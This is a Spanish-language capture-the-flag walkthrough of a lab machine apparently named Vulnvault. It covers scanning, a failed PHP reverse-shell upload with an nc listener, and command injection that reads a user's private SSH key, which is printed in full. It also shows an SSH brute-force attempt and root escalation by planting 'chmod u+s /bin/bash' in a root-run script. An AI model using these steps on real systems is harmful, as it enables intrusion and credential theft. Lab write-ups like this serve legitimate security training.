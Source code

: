 ```bash
nmap -O -sV -sC -p- 172.17.0.2
```
**Salida**
```bash
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:    
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)  
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)  
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))  
|_http-server-header: Apache/2.4.58 (Ubuntu)  
|_http-title: Generador de Reportes - Centro de Operaciones
```

en la página web hay un apartado para subir archivos al servidor, lo intentaremos explotar luego de terminar con la busqueda de directorios ocultos

```bash
gobuster dir -w /home/eduard/wordList/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2 -x php,html,txt


/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/index.php            (Status: 200) [Size: 3317]  
/upload.html          (Status: 200) [Size: 2314]  
/upload.php           (Status: 200) [Size: 33]  
/old                  (Status: 301) [Size: 306] [--> http://172.17.0.2/old/]  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]
```
vamos a subir una reverse shell escrita en php
```
nano exploit.php
nc -lvnp 443
```
y pegamos el código del github https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Tenemos que modificar la ip y poner la nuestra, tambien el puerto por el que queremos escuchar

subimos el archivo y sale un mensaje de subida exitosa. Nos dirigimos a 172.17.0.2/upload.php y nos indica 
`No se ha enviado ningún archivo.`
capturamos con burpsuite la petición e indica que ha habido un error al mover el archivo. Parece que este no es el camino
![[Vulnvault_Burpsuite1.png]]

![[Vulnvault_Burpsuite2.png]]

vamos a probar con `generador de reportes`
intentamos un `Server-Side Template Injection (SSTI)`
```bash
{{7*7}}
```
pero no da resultado

Probamos con un command injection y funciona

![[Vulnvault_CommandInjection1.png]]

![[Vulnvault_CommandInjection2.png]]

ya tenemos uno de los usuarios: `samara`. vamos a usar hydra para entrar via ssh

```bash
hydra -l samara -P /home/eduard/wordList/rockyou.txt ssh://172.17.0.2
```

no consigo la contraseña por fuerza bruta, vamos a continuar buscando con `comand injection`a ver si logramos encontrar en algún archivo la clave

```bash
; ls /root
; ls /home/samara -la
-----------------------------------------------------------------
Nombre: \
ls: cannot open directory '/root': Permission denied

drwxr-xr-x 1 samara samara   25 Aug 13 00:27 .
drwxr-xr-x 1 root   root     20 Aug 20  2024 ..
-rw------- 1 samara samara  218 Aug 20  2024 .bash_history
-rw-r--r-- 1 samara samara  220 Aug 20  2024 .bash_logout
-rw-r--r-- 1 samara samara 3771 Aug 20  2024 .bashrc
drwx------ 2 samara samara   34 Aug 20  2024 .cache
drwxrwxr-x 3 samara samara   19 Aug 20  2024 .local
-rw-r--r-- 1 samara samara  807 Aug 20  2024 .profile
drwxr-xr-x 2 samara samara   61 Aug 20  2024 .ssh
-rw-r--r-- 1 root   root     35 Aug 14 00:07 message.txt
-rw------- 1 samara samara   33 Aug 20  2024 user.txt

```
No hay nada en message y user.txt
```bash
Nombre: \
No tienes permitido estar aqui :(.
Fecha: \
cat: /home/samara/user.txt: Permission denied
```
Pero si tenemos la clave ssh

```bash
cat /home/samara/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

lo añadimos a un archivo, le damos permisos y nos conectamos via ssh
```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa samara@172.17.0.2
```

```bash
whoami
# samara
```

ahora si podemos acceder al archivo user.txt
```bash
cat user.txt  
030208509edea7480a10b84baca3df3e
```

Tras un rato buscando como escalar privilegios, encontramos un arcchivo que se ejecuta con privilegios de super usuario. Es un documento que ya vimos anteriormente

```bash
samara@cb15215f66e3:/home$ ps aux | grep samara  
root     1671808  0.0  0.0  14536  8264 ?        Ss   00:18   0:00 sshd: samara [priv]  
samara   1671855  0.3  0.0  14796  6704 ?        S    00:18   0:02 sshd: samara@pts/0  
samara   1671865  0.0  0.0   5016  3852 pts/0    Ss   00:18   0:00 -bash  
samara   1699395  0.0  0.0   3144  1976 pts/0    S+   00:22   0:00 script /dev/null -c bash  
samara   1699398  0.0  0.0   5124  4152 pts/1    Ss   00:22   0:00 bash  
samara   1775175 33.3  0.0   8280  4024 pts/1    R+   00:32   0:00 ps aux  
samara   1775176  0.0  0.0   3956  2344 pts/1    S+   00:32   0:00 grep --color=auto samara  
samara@cb15215f66e3:/home$ ps aux | grep root  
root           1  5.8  0.0   2800  2132 ?        Ss   Aug13  16:22 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done                     <-  <-  <- 
root          15  0.0  0.0  12020  4124 ?        Ss   Aug13   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups  
root          33  0.0  0.2 203452 21780 ?        Ss   Aug13   0:02 /usr/sbin/apache2 -k start  
root     1671808  0.0  0.0  14536  8264 ?        Ss   00:18   0:00 sshd: samara [priv]  
samara   1776496  0.0  0.0   3956  2116 pts/1    S+   00:32   0:00 grep --color=auto root  
```

```bash
cat /usr/local/bin/echo.sh

#!/bin/bash  
  
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt  
```
lo modificamos para que contenga el siguiente contenido:
```bash
#!/bin/bash  
  
chmod u+s /bin/bash
```

```bash
bash -p  
whoami  
# root
```

```bash
ls /root  
root.txt  

cat /root/root.txt  
640c89bbfa2f70a4038fd570c65d6dcc
```